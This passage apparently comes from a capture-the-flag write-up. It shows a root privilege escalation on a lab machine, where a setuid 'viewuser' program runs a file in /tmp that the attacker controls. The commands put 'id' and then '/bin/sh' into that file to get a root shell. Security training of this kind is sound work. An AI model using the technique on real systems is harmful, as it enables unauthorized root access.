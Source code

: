 Now I get a permission denied. I'll add execute permissions to `/tmp/listusers`:

```shell
chmod +x /tmp/listusers
echo id > /tmp/listusers
viewuser

This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2024-11-25 16:40 (:0)
djmardov pts/1        2024-11-25 17:22 (10.10.14.28)
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
```

Well, now I can execute commands as `root`. I can get a reverse shell like:

```shell
printf '/bin/sh' > /tmp/listusers
viewuser
# Now you are root
```

![](Pasted%20image%2020241125234420.png)

==Machine pwned!==
